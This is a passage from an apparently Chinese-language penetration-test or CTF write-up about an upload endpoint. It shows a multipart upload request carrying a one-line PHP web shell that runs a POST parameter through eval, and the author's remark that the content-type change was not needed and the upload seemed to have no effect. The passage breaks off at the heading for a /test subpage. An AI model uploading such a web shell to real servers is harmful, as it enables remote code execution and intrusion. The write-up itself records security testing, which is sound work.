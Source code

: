 ```
<?php eval($_POST['cmd']); ?>

------WebKitFormBoundarySAc3kUlEiXINjlY8
Content-Disposition: form-data; name="name"

name
------WebKitFormBoundarySAc3kUlEiXINjlY8
Content-Disposition: form-data; name="address"

address
------WebKitFormBoundarySAc3kUlEiXINjlY8
Content-Disposition: form-data; name="id"

1337
------WebKitFormBoundarySAc3kUlEiXINjlY8
Content-Disposition: form-data; name="upload"

upload
------WebKitFormBoundarySAc3kUlEiXINjlY8--
```

把 `application/octet-stream` 修改为 `image-jpeg` （后来发现都不需要改），上传上去发现 **200 OK** 了，但是好像什么响应都没有，`/uploaded_images` 也没有出现内容，应该是没有用（或者说是一个缺乏具体应用场景的空壳）

![image-20251021111245151](images/image-20251021111245151.png)

##### /test 子页面

页面的内容是：
